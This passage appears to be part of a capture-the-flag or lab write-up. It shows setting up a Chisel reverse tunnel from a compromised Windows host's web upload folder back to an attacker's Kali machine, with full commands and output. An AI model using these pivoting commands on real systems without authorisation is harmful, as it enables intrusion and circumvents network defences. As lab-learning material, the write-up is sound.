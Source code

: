### Extra notes
I also experimented with using Chisel for creating a tunnel on this VM.  
Creating a Chisel server on attacker machine:
```bash
kali@kali:~/Desktop$ chisel server -p 7777 --reverse
2020/08/03 06:14:09 server: Reverse tunnelling enabled
2020/08/03 06:14:09 server: Fingerprint 9e:99:ff:95:df:77:7e:b8:65:4c:c4:3a:84:0e:9e:05
2020/08/03 06:14:09 server: Listening on 0.0.0.0:7777...
```
The server is used as a central point to route and create connections. To start a reverse tunnel, on the target machine, run the Chisel binary like so:
```bash
PS C:\xampp\htdocs\gym\upload> ./chisel.exe client 10.10.15.145:7777 R:8888:127.0.0.1:8888
./chisel.exe client 10.10.15.145:7777 R:8888:127.0.0.1:8888
2020/08/03 11:14:46 client: Connecting to ws://10.10.15.145:7777
2020/08/03 11:14:48 client: Fingerprint 0c:a0:69:41:25:ae:4d:e9:dd:c2:50:c6:5b:34:53:cb
2020/08/03 11:14:50 client: Connected (Latency 487.0431ms)
```
The first arg is the address of the server, then which ports to translate.